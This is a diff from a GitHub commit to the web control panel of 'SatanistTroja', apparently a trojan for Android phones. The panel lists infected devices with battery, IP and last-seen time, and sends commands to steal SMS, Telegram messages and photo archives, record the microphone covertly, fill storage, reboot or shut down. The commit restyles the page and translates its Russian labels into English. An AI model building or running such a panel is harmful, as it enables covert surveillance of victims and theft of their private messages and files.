

Before and after one commit to vnartov840-art/Satanist-Troja, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme; tables that the repository leaves empty hold one stand-in row (values such as "Sample post"); parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over.

Commit message:
Add files via upload

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -2,68 +2,220 @@
 <html>
 <head>
     <meta charset="UTF-8">
-    <title>SatanistTroja - Управление</title>
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>SatanistTroja</title>
     <style>
         * { margin: 0; padding: 0; box-sizing: border-box; }
-        body { font-family: 'Segoe UI', sans-serif; background: #0a0e17; color: #e6edf3; padding: 20px; }
-        .container { max-width: 1000px; margin: 0 auto; }
-        h1 { font-size: 28px; margin-bottom: 10px; display: flex; align-items: center; gap: 10px; }
-        .subtitle { color: #8b949e; margin-bottom: 20px; }
-        .device { background: #161b22; border-radius: 16px; padding: 18px 20px; margin-bottom: 14px; border-left: 5px solid #2ea043; transition: all 0.3s; cursor: pointer; }
-        .device.offline { border-left-color: #da3633; opacity: 0.7; }
-        .device.online { border-left-color: #2ea043; }
-        .device-top { display: flex; justify-content: space-between; align-items: center; flex-wrap: wrap; gap: 10px; }
-        .device-name { font-size: 20px; font-weight: bold; display: flex; align-items: center; gap: 8px; }
-        .device-status { font-size: 14px; display: flex; align-items: center; gap: 8px; }
-        .online-tag { color: #2ea043; }
-        .offline-tag { color: #da3633; }
-        .device-details { display: flex; flex-wrap: wrap; gap: 16px; margin-top: 8px; font-size: 14px; color: #8b949e; }
+        body {
+            font-family: 'Segoe UI', sans-serif;
+            background: #0d0a1a;
+            color: #e0d6f0;
+            padding: 20px;
+            min-height: 100vh;
+        }
+        .container { max-width: 1100px; margin: 0 auto; }
+        .header {
+            display: flex;
+            justify-content: space-between;
+            align-items: center;
+            margin-bottom: 24px;
+            padding-bottom: 16px;
+            border-bottom: 1px solid #2a1f4a;
+        }
+        .header h1 {
+            font-size: 28px;
+            background: linear-gradient(135deg, #a78bfa, #7c3aed);
+            -webkit-background-clip: text;
+            -webkit-text-fill-color: transparent;
+            font-weight: 700;
+        }
+        .header .badge {
+            background: #2a1f4a;
+            padding: 6px 14px;
+            border-radius: 20px;
+            font-size: 13px;
+            color: #a78bfa;
+            border: 1px solid #4a3a6a;
+        }
+        .device {
+            background: #14102a;
+            border-radius: 16px;
+            padding: 16px 20px;
+            margin-bottom: 12px;
+            border: 1px solid #2a1f4a;
+            transition: all 0.3s;
+            cursor: pointer;
+        }
+        .device:hover { border-color: #7c3aed; }
+        .device.offline { opacity: 0.6; border-color: #3a2a4a; }
+        .device.online { border-color: #7c3aed; }
+        .device-top {
+            display: flex;
+            justify-content: space-between;
+            align-items: center;
+            flex-wrap: wrap;
+            gap: 10px;
+        }
+        .device-name {
+            font-size: 18px;
+            font-weight: 600;
+            display: flex;
+            align-items: center;
+            gap: 10px;
+        }
+        .device-name .expand-icon {
+            font-size: 16px;
+            transition: transform 0.3s;
+            display: inline-block;
+            color: #7c3aed;
+        }
+        .device-name .expand-icon.rotated { transform: rotate(180deg); }
+        .status-tag {
+            font-size: 13px;
+            padding: 4px 12px;
+            border-radius: 20px;
+        }
+        .status-tag.online { background: #1a3a2a; color: #6ee7a7; }
+        .status-tag.offline { background: #3a1a1a; color: #f87171; }
+        .device-details {
+            display: flex;
+            flex-wrap: wrap;
+            gap: 16px;
+            margin-top: 8px;
+            font-size: 13px;
+            color: #9a8aba;
+        }
         .device-details span { display: flex; align-items: center; gap: 4px; }
-        .last-seen { font-size: 12px; color: #8b949e; margin-top: 4px; }
-        .badge { background: #21262d; padding: 2px 10px; border-radius: 20px; font-size: 12px; }
-        .menu-panel { background: #0d1117; border-radius: 12px; padding: 16px; margin-top: 12px; display: none; border: 1px solid #30363d; }
+        .last-seen { font-size: 12px; color: #6a5a7a; margin-top: 4px; }
+        .menu-panel {
+            background: #0d0a1a;
+            border-radius: 12px;
+            padding: 16px;
+            margin-top: 12px;
+            display: none;
+            border: 1px solid #2a1f4a;
+        }
         .menu-panel.active { display: block; }
-        .menu-grid { display: grid; grid-template-columns: repeat(auto-fill, minmax(130px, 1fr)); gap: 8px; margin-top: 10px; }
-        .menu-grid .btn { width: 100%; text-align: center; padding: 8px 10px; font-size: 13px; }
-        .menu-title { font-size: 15px; font-weight: bold; color: #c9d1d9; margin-bottom: 6px; }
-        .btn { background: #238636; border: none; color: white; padding: 8px 16px; border-radius: 6px; cursor: pointer; font-size: 14px; transition: 0.2s; }
-        .btn:hover { background: #2ea043; transform: scale(1.02); }
-        .btn-danger { background: #da3633; }
-        .btn-danger:hover { background: #f85149; }
-        .btn-outline { background: transparent; border: 1px solid #30363d; color: #c9d1d9; }
-        .btn-outline:hover { background: #30363d; }
-        .btn-purple { background: #8957e5; }
-        .btn-purple:hover { background: #a371f7; }
-        .btn-orange { background: #d29922; }
-        .btn-orange:hover { background: #e3b341; }
-        .empty { text-align: center; padding: 60px 20px; color: #8b949e; }
+        .menu-grid {
+            display: grid;
+            grid-template-columns: repeat(auto-fill, minmax(130px, 1fr));
+            gap: 8px;
+            margin-top: 10px;
+        }
+        .btn {
+            background: #2a1f4a;
+            border: 1px solid #3a2a5a;
+            color: #d0c6e8;
+            padding: 8px 12px;
+            border-radius: 8px;
+            cursor: pointer;
+            font-size: 13px;
+            transition: all 0.2s;
+            text-align: center;
+            width: 100%;
+            font-family: inherit;
+        }
+        .btn:hover {
+            background: #3a2a5a;
+            border-color: #7c3aed;
+            transform: scale(1.02);
+        }
+        .btn:active { transform: scale(0.95); }
+        .btn-primary { background: #7c3aed; border-color: #7c3aed; color: #fff; }
+        .btn-primary:hover { background: #6d28d9; }
+        .btn-danger { background: #4a1a2a; border-color: #6a2a3a; color: #f87171; }
+        .btn-danger:hover { background: #6a2a3a; border-color: #f87171; }
+        .btn-success { background: #1a3a2a; border-color: #2a5a3a; color: #6ee7a7; }
+        .btn-success:hover { background: #2a5a3a; border-color: #6ee7a7; }
+        .btn-outline { background: transparent; border-color: #3a2a5a; }
+        .btn-outline:hover { background: #2a1f4a; }
+        .btn-recording { background: #6a1a1a; border-color: #8a2a2a; color: #f87171; animation: pulse 1s infinite; }
+        @keyframes pulse { 0% { opacity: 0.7; } 50% { opacity: 1; } 100% { opacity: 0.7; } }
+        .empty { text-align: center; padding: 60px 20px; color: #6a5a7a; }
         .empty .icon { font-size: 48px; margin-bottom: 16px; }
-        .toast { position: fixed; bottom: 20px; left: 50%; transform: translateX(-50%); background: #238636; color: #fff; padding: 12px 24px; border-radius: 8px; z-index: 9999; font-size: 14px; animation: fadeIn 0.3s; }
-        .toast.error { background: #da3633; }
-        @keyframes fadeIn { from { opacity: 0; transform: translateX(-50%) translateY(20px); } to { opacity: 1; transform: translateX(-50%) translateY(0); } }
-        @media (max-width: 600px) { .device-top { flex-direction: column; align-items: flex-start; } .menu-grid { grid-template-columns: repeat(2, 1fr); } }
-        .expand-icon { font-size: 14px; color: #8b949e; margin-left: 6px; transition: transform 0.3s; display: inline-block; }
-        .expand-icon.rotated { transform: rotate(180deg); }
+        .toast {
+            position: fixed;
+            bottom: 24px;
+            left: 50%;
+            transform: translateX(-50%);
+            background: #2a1f4a;
+            color: #d0c6e8;
+            padding: 12px 24px;
+            border-radius: 12px;
+            border: 1px solid #3a2a5a;
+            z-index: 9999;
+            font-size: 14px;
+            animation: fadeIn 0.3s;
+            max-width: 90%;
+            text-align: center;
+        }
+        .toast.error { border-color: #6a2a3a; color: #f87171; }
+        .toast.success { border-color: #2a5a3a; color: #6ee7a7; }
+        @keyframes fadeIn {
+            from { opacity: 0; transform: translateX(-50%) translateY(20px); }
+            to { opacity: 1; transform: translateX(-50%) translateY(0); }
+        }
+        .menu-title {
+            font-size: 14px;
+            font-weight: 600;
+            color: #a78bfa;
+            margin-bottom: 8px;
+            display: flex;
+            align-items: center;
+            gap: 8px;
+        }
+        .badge-model {
+            background: #1a1a2a;
+            padding: 2px 10px;
+            border-radius: 12px;
+            font-size: 12px;
+            color: #9a8aba;
+            font-weight: 400;
+        }
+        .battery-bar {
+            display: inline-block;
+            width: 60px;
+            height: 6px;
+            background: #1a1a2a;
+            border-radius: 3px;
+            overflow: hidden;
+            vertical-align: middle;
+            margin-left: 4px;
+        }
+        .battery-bar .fill {
+            height: 100%;
+            border-radius: 3px;
+            transition: width 0.5s;
+        }
+        .battery-bar .fill.high { background: #6ee7a7; }
+        .battery-bar .fill.medium { background: #fbbf24; }
+        .battery-bar .fill.low { background: #f87171; }
+        @media (max-width: 600px) {
+            .device-top { flex-direction: column; align-items: flex-start; }
+            .menu-grid { grid-template-columns: repeat(2, 1fr); }
+        }
     </style>
 </head>
 <body>
 <div class="container">
-    <h1>📱 SatanistTroja</h1>
-    <div class="subtitle">Управление подключёнными устройствами</div>
-    <div id="devices">Загрузка...</div>
+    <div class="header">
+        <h1>satanist troja</h1>
+        <span class="badge" id="deviceCount">0 устройств</span>
+    </div>
+    <div id="devices">loading...</div>
 </div>
 
 <script>
     let activeDeviceId = null;
     let toastTimeout = null;
+    let recordingStates = {};
 
-    function showToast(msg, isError = false) {
+    function showToast(msg, type = '') {
         if (toastTimeout) clearTimeout(toastTimeout);
         const existing = document.querySelector('.toast');
         if (existing) existing.remove();
         const toast = document.createElement('div');
-        toast.className = 'toast' + (isError ? ' error' : '');
+        toast.className = 'toast ' + type;
         toast.textContent = msg;
         document.body.appendChild(toast);
         toastTimeout = setTimeout(() => toast.remove(), 3000);
@@ -85,15 +237,74 @@
         }
     }
 
-    function sendCommand(deviceId, command) {
+    function sendCommand(deviceId, command, btn) {
+        if (btn) {
+            btn.disabled = true;
+            btn.textContent = '...';
+            btn.style.opacity = '0.6';
+        }
         fetch('/api/command', {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
             body: JSON.stringify({ deviceId, command })
         })
         .then(res => res.json())
-        .then(() => showToast('✅ Команда отправлена: ' + command))
-        .catch(() => showToast('❌ Ошибка отправки', true));
+        .then(data => {
+            if (data.status === 'ok') {
+                showToast('command sent: ' + command, 'success');
+            } else {
+                showToast('error: ' + data.message, 'error');
+            }
+        })
+        .catch(() => showToast('error sending command', 'error'))
+        .finally(() => {
+            if (btn) {
+                btn.disabled = false;
+                btn.textContent = getButtonLabel(command);
+                btn.style.opacity = '1';
+            }
+        });
+    }
+
+    function getButtonLabel(cmd) {
+        const labels = {
+            'reboot': 'reboot',
+            'shutdown': 'shutdown',
+            'collect': 'data',
+            'pictures': 'pictures zip',
+            'lock_volume': 'lock volume',
+            'unlock_volume': 'unlock volume',
+            'wifi_toggle': 'wifi',
+            'airplane': 'airplane',
+            'wallpaper': 'wallpaper',
+            'sms': 'sms (5)',
+            'tgsms30': 'tg (30)',
+            'tgsms1000': 'tg (1000)',
+            'fill_storage': 'fill storage',
+            'clean_storage': 'clean storage'
+        };
+        return labels[cmd] || cmd;
+    }
+
+    function toggleRecording(deviceId, btn) {
+        const isRecording = recordingStates[deviceId] || false;
+        if (isRecording) {
+            sendCommand(deviceId, 'voice_stop', btn);
+            recordingStates[deviceId] = false;
+            btn.textContent = '🎙 record';
+            btn.className = 'btn btn-danger';
+        } else {
+            sendCommand(deviceId, 'voice_start', btn);
+            recordingStates[deviceId] = true;
+            btn.textContent = '⏹ stop';
+            btn.className = 'btn btn-recording';
+        }
+    }
+
+    function getBatteryClass(level) {
+        if (level >= 70) return 'high';
+        if (level >= 30) return 'medium';
+        return 'low';
     }
 
     function fetchDevices() {
@@ -101,53 +312,62 @@
             .then(res => res.json())
             .then(data => {
                 const container = document.getElementById('devices');
+                const countEl = document.getElementById('deviceCount');
                 if (!data || data.length === 0) {
-                    container.innerHTML = `<div class="empty"><div class="icon">📭</div><p>Нет устройств</p></div>`;
+                    container.innerHTML = `<div class="empty"><div class="icon">📭</div><p>no devices connected</p></div>`;
+                    countEl.textContent = '0 devices';
                     return;
                 }
+                countEl.textContent = data.length + ' devices';
                 container.innerHTML = data.map(d => {
                     const isOnline = d.status === 'online';
                     const battery = d.battery !== undefined ? d.battery : 0;
+                    const isRecording = recordingStates[d.id] || false;
                     return `
                         <div class="device ${isOnline ? 'online' : 'offline'}" data-id="${d.id}" onclick="toggleMenu('${d.id}')">
                             <div class="device-top">
                                 <div class="device-name">
-                                    ${d.name || 'Без имени'}
-                                    <span class="expand-icon">▼</span>
+                                    ${d.name || 'unknown'}
+                                    <span class="expand-icon">▾</span>
+                                    <span class="badge-model">${d.model || 'unknown'}</span>
                                 </div>
-                                <div class="device-status">
-                                    ${isOnline
-                                        ? '<span class="online-tag">🟢 Онлайн</span>'
-                                        : '<span class="offline-tag">🔴 Оффлайн</span>'}
-                                    <span class="badge">${d.model || 'Unknown'}</span>
+                                <div>
+                                    <span class="status-tag ${isOnline ? 'online' : 'offline'}">
+                                        ${isOnline ? '● online' : '● offline'}
+                                    </span>
                                 </div>
                             </div>
                             <div class="device-details">
-                                <span>🔋 ${battery}%</span>
-                                <span>🆔 ${d.id ? d.id.substring(0, 8) + '...' : 'N/A'}</span>
+                                <span>
+                                    🔋 ${battery}%
+                                    <span class="battery-bar"><span class="fill ${getBatteryClass(battery)}" style="width:${battery}%"></span></span>
+                                </span>
+                                <span>🆔 ${d.id ? d.id.substring(0, 8) + '...' : 'n/a'}</span>
                                 ${d.ip ? `<span>🌐 ${d.ip}</span>` : ''}
                             </div>
-                            <div class="last-seen">Последний раз: ${d.last_seen ? new Date(d.last_seen).toLocaleString() : 'N/A'}</div>
+                            <div class="last-seen">last seen: ${d.last_seen ? new Date(d.last_seen).toLocaleString() : 'never'}</div>
 
                             <div class="menu-panel" id="menu-${d.id}">
-                                <div class="menu-title">🎮 Управление устройством</div>
+                                <div class="menu-title">▸ control panel</div>
                                 <div class="menu-grid">
-                                    <button class="btn" onclick="event.stopPropagation(); sendCommand('${d.id}', 'reboot')">🔄 Перезагрузить</button>
-                                    <button class="btn btn-danger" onclick="event.stopPropagation(); sendCommand('${d.id}', 'shutdown')">⏻ Выключить</button>
-                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'collect')">📊 Данные</button>
-                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'pictures')">📁 Pictures ZIP</button>
-                                    <button class="btn btn-purple" onclick="event.stopPropagation(); sendCommand('${d.id}', 'lock_volume')">🔒 Блок. громкость</button>
-                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'unlock_volume')">🔓 Разблок. громкость</button>
-                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'wifi_toggle')">📶 Wi-Fi</button>
-                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'airplane')">✈️ Режим полёта</button>
-                                    <button class="btn btn-orange" onclick="event.stopPropagation(); sendCommand('${d.id}', 'wallpaper')">🖼 Обои</button>
-                                    <button class="btn btn-purple" onclick="event.stopPropagation(); sendCommand('${d.id}', 'sms')">📱 SMS последние 5</button>
-                                    <button class="btn btn-purple" onclick="event.stopPropagation(); sendCommand('${d.id}', 'tgsms30')">📩 TG последние 30</button>
-                                    <button class="btn btn-purple" onclick="event.stopPropagation(); sendCommand('${d.id}', 'tgsms1000')">📩 TG последние 1000</button>
-                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'fill_storage')">💾 Заполнить память</button>
-                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'clean_storage')">🧹 Очистить память</button>
-                                    <button class="btn btn-danger" onclick="event.stopPropagation(); sendCommand('${d.id}', 'voice_start')">🎙 Прослушка (вкл)</button>
-                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'voice_stop')">⏹ Прослушка (выкл)</button>
+                                    <button class="btn btn-primary" onclick="event.stopPropagation(); sendCommand('${d.id}', 'reboot', this)">reboot</button>
+                                    <button class="btn btn-danger" onclick="event.stopPropagation(); sendCommand('${d.id}', 'shutdown', this)">shutdown</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'collect', this)">data</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'pictures', this)">pictures zip</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'lock_volume', this)">lock volume</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'unlock_volume', this)">unlock volume</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'wifi_toggle', this)">wifi</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'airplane', this)">airplane</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'wallpaper', this)">wallpaper</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'sms', this)">sms (5)</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'tgsms30', this)">tg (30)</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'tgsms1000', this)">tg (1000)</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'fill_storage', this)">fill storage</button>
+                                    <button class="btn btn-outline" onclick="event.stopPropagation(); sendCommand('${d.id}', 'clean_storage', this)">clean storage</button>
+                                    <button class="btn ${isRecording ? 'btn-recording' : 'btn-danger'}"
+                                            onclick="event.stopPropagation(); toggleRecording('${d.id}', this)">
+                                        ${isRecording ? '⏹ stop' : '🎙 record'}
+                                    </button>
                                 </div>
                             </div>
                         </div>
@@ -155,11 +375,12 @@
                 }).join('');
             })
             .catch(() => {
-                document.getElementById('devices').innerHTML = '<div class="empty"><div class="icon">⚠️</div><p>Ошибка загрузки</p></div>';
+                document.getElementById('devices').innerHTML = '<div class="empty"><div class="icon">⚠️</div><p>error loading devices</p></div>';
             });
     }
 
-    setInterval(fetchDevices, 10000);
+    // Живое обновление каждые 5 секунд
+    setInterval(fetchDevices, 5000);
     fetchDevices();
 </script>
 </body>
```
